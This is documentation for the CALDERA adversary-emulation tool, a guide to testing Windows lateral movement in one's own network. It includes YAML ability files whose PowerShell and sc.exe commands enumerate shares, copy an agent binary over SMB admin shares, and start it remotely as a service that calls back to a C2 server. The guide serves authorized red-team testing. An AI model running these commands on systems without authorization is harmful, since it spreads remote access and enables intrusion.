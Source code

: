 # Windows Lateral Movement Guide

Exercising Caldera's lateral movement and remote execution abilities allows you to test how easily an adversary can move
within your network. This guide will walk you through some of the necessary setup steps to get started with testing 
lateral movement in a Windows environment.  

## Setup

### Firewall Exceptions and Enabling File and Printer Sharing

The firewall of the target host should not be blocking UDP ports 137 and 138 and TCP ports 139 and 445. The firewall
should also allow inbound file and printer sharing. 

```
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes
```

### User with Administrative Privileges

This guide will assume a user *with administrative privileges to the target host* has been compromised and that a CALDERA
agent has been spawned with this user's privileges. Some methods of lateral movement may depend on whether (1) the user 
has administrative privileges but is not a domain account or (2) the user has administrative privileges and is a domain 
account. The example walkthrough in this guide should not be impacted by these distinctions.

### Additional Considerations

1. Ensure GPO/SRP or antivirus is not blocking remote access to shares.
2. Ensure at least ADMIN$, C$, and IPC$ shares exist on the target host.

## Lateral Movement Using CALDERA
Lateral movement can be a combination of two steps. The first requires confirmation of remote access to the next target 
host and the movement or upload of the remote access tool (RAT) executable to the host. The second part requires 
*execution* of the binary, which upon callback of the RAT on the new host would complete the lateral movement. 

Most of CALDERA's lateral movement and execution abilities found in Stockpile have fact or relationship requirements 
that must be satisfied. This information may be passed to the operation in two ways:
1. The fact and relationship information may be added to an operation's source. A new source can be created or this
information can be added to an already existing source as long as that source is used by the operation. When configuring
an operation, open the "**AUTONOMOUS**" drop down section and select "Use [insert source name] facts" to indicate to the 
operation that it should take in fact and relationship information from the selected source.
2. The fact and relationship information can be discovered by an operation. This requires additional abilities to be run
prior to the lateral movement and execution abilities to collect the necessary fact and relationship information 
necessary to satisfy the ability requirements. 

### Moving the Binary
There are several ways a binary can be moved or uploaded from one host to another. Some example methods used in 
CALDERA's lateral movement abilities include:
1. WinRM
2. SCP
3. wmic
4. SMB
5. psexec
 
Based on the tool used, additional permissions may need to be changed in order for users to conduct these actions 
remotely.

### Execution of the Binary
CALDERA's Stockpile execution abilities relevant to lateral movement mainly use wmic to remotely start the binary. Some 
additional execution methods include modifications to Windows services and scheduled tasks. The example in this guide 
will use the creation of a service to remotely start the binary (ability file included at the end of this guide).

See ATT&CK's [Execution](https://attack.mitre.org/tactics/TA0002/) tactic page for more details on execution methods. 

### Displaying Lateral Movement in Debrief
Using the adversary profile in this guide and CALDERA's Debrief plugin, you can view the path an adversary took through 
the network via lateral movement attempts. In the Debrief modal, select the operation where lateral movement was 
attempted then select the Attack Path view from the upper right hand corner of graph views. This graph displays the 
originating C2 server and agent nodes connected by the execution command linking the originating agent to the newly
spawned agent.

In the example attack path graph below, the Service Creation Lateral Movement adversary profile was run on the `win10` 
host, which moved laterally to the `VAGRANTDC` machine via successful execution of the Service Creation ability.

![Debrief Attack Path Example](/img/debrief_attack_path.png)    

This capability relies on the `origin_link_id` field to be populated within the agent profile upon first
check-in and is currently implemented for the default agent, 54ndc47. For more information about the `#{origin_link_id}`
global variable, see the explanation of **Command** in the [What is an Ability?](/docs/Learning-the-Terminology.html#what-is-an-ability)
section of the Learning the Terminology guide. For more information about how lateral movement tracking is implemented 
in agents to be used with CALDERA, see the [Lateral Movement Tracking](/docs/How-to-Build-Agents.html#lateral-movement-tracking) 
section of the How to Build Agents guide.


## Example Lateral Movement Profile
This section will walkthrough the necessary steps for proper execution of the Service Creation Lateral Movement
adversary profile. This section will assume successful setup from the previous sections mentioned in this guide and that
a 54ndc47 agent has been spawned with administrative privileges to the remote target host. The full ability files used 
in this adversary profile are included at the end of this guide.

See a video of the following steps [here](#video-walkthrough).

1. Go to `navigate` pane > `Advanced` > `sources`. This should open a new sources modal in the web GUI.
2. Click the toggle to create a new source. Enter "SC Source" as the source name. Then enter `remote.host.fqdn` as the 
fact name and the FQDN of the target host you are looking to move laterally to as the fact value. Click `Save` once 
source configuration has been completed.
3. Go to `navigate` pane > `Campaigns` > `operations`. Click the toggle to create a new operation. Under 
`BASIC OPTIONS` select the group with the relevant agent and the Service Creation Lateral Movement profile. Under 
`AUTONOMOUS`, select `Use SC Source facts`. If the source created from the previous step is not available in the 
drop down, try refreshing the page. 
4. Once operation configurations have been completed, click `Start` to start the operation.
5. Check the agents list for a new agent on the target host.

### Ability Files Used 
```
- id: deeac480-5c2a-42b5-90bb-41675ee53c7e
  name: View remote shares
  description: View the shares of a remote host
  tactic: discovery
  technique:
    attack_id: T1135
    name: Network Share Discovery
  platforms:
    windows:
      psh:
        command: net view \\#{remote.host.fqdn} /all
        parsers:
          plugins.stockpile.app.parsers.net_view:
          - source: remote.host.fqdn
            edge: has_share
            target: remote.host.share
      cmd:
        command: net view \\#{remote.host.fqdn} /all
        parsers:
          plugins.stockpile.app.parsers.net_view:
          - source: remote.host.fqdn
            edge: has_share
            target: remote.host.share
```

```
- id: 65048ec1-f7ca-49d3-9410-10813e472b30
  name: Copy 54ndc47 (SMB)
  description: Copy 54ndc47 to remote host (SMB)
  tactic: lateral-movement
  technique:
    attack_id: T1021.002
    name: "Remote Services: SMB/Windows Admin Shares"
  platforms:
    windows:
      psh:
        command: |
          $path = "sandcat.go-windows";
          $drive = "\\#{remote.host.fqdn}\C$";
          Copy-Item -v -Path $path -Destination $drive"\Users\Public\s4ndc4t.exe";
        cleanup: |
          $drive = "\\#{remote.host.fqdn}\C$";
          Remove-Item -Path $drive"\Users\Public\s4ndc4t.exe" -Force;
        parsers:
          plugins.stockpile.app.parsers.54ndc47_remote_copy:
          - source: remote.host.fqdn
            edge: has_54ndc47_copy
        payloads:
        - sandcat.go-windows
  requirements:
  - plugins.stockpile.app.requirements.not_exists:
    - source: remote.host.fqdn
      edge: has_54ndc47_copy
  - plugins.stockpile.app.requirements.basic:
    - source: remote.host.fqdn
      edge: has_share
  - plugins.stockpile.app.requirements.no_backwards_movement:
    - source: remote.host.fqdn
```

```
- id: 95727b87-175c-4a69-8c7a-a5d82746a753
  name: Service Creation
  description: Create a service named "sandsvc" to execute remote 54ndc57 binary named "s4ndc4t.exe"
  tactic: execution
  technique:
    attack_id: T1569.002
    name: 'System Services: Service Execution'
  platforms:
    windows:
      psh:
        timeout: 300
        cleanup: |
          sc.exe \\#{remote.host.fqdn} stop sandsvc;
          sc.exe \\#{remote.host.fqdn} delete sandsvc /f;
          taskkill /s \\#{remote.host.fqdn} /FI "Imagename eq s4ndc4t.exe"
        command: |
          sc.exe \\#{remote.host.fqdn} create sandsvc start= demand error= ignore binpath= "cmd /c start C:\Users\Public\s4ndc4t.exe -server #{server} -v -originLinkID #{origin_link_id}" displayname= "Sandcat Execution";
          sc.exe \\#{remote.host.fqdn} start sandsvc;
          Start-Sleep -s 15;
          Get-Process -ComputerName #{remote.host.fqdn} s4ndc4t;
```  



